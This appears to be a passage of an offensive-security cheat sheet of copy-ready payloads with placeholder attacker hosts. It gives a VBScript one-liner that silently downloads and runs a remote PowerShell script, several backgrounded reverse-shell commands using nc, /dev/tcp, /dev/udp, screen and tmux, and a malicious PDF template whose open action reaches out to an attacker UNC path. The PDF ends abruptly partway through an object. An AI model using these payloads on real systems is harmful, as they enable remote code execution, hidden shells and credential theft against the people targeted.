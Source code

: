 ### One-Liner

```c
<scRipt language="VBscRipT">CreateObject("WscrIpt.SheLL").Run "powershell -ep bypass -w hidden IEX (New-ObjEct System.Net.Webclient).DownloadString('http://<LHOST>/<FILE>.ps1')"</scRipt>
```

## Background Reverse Shells

```c
$ (mkfifo /tmp/K98LmaT; nc <LHOST> <LPORT> 0</tmp/K98LmaT | /bin/sh >/tmp/K98LmaT 2>&1; rm /tmp/K98LmaT) &
$ script -c 'bash -i' /dev/null </dev/udp/<LHOST>/<LPORT> >&0 2>&1 &
$ screen -md bash -c 'bash -i >/dev/tcp/<LHOST>/<LPORT> 2>&1 0<&1' -md ('start a new detached process')
$ tmux new-session -d -s mysession 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
```

## Bad PDF

```c
%PDF-1.7
1 0 obj
<</Type/Catalog/Pages 2 0 R>>
endobj
2 0 obj
<</Type/Pages/Kids[3 0 R]/Count 1>>
endobj
3 0 obj
<</Type/Page/Parent 2 0 R/MediaBox[0 0 612 792]/Resources<<>>>>
endobj
xref
0 4
0000000000 65535 f
0000000015 00000 n
0000000060 00000 n
0000000111 00000 n
trailer
<</Size 4/Root 1 0 R>>
startxref
190
3 0 obj
<< /Type /Page
   /Contents 4 0 R
   /AA <<
    /O <<
       /F (\\\\<LHOST>\\<FILE>)
    /D [ 0 /Fit]
    /S /GoToE
    >>
    >>
    /Parent 2 0 R
    /Resources <<
   /Font <<
    /F1 <<
     /Type /Font
     /Subtype /Type1
     /BaseFont /Helvetica
     >>
      >>
    >>
>>
endobj
4 0 obj<< /Length 100>>
```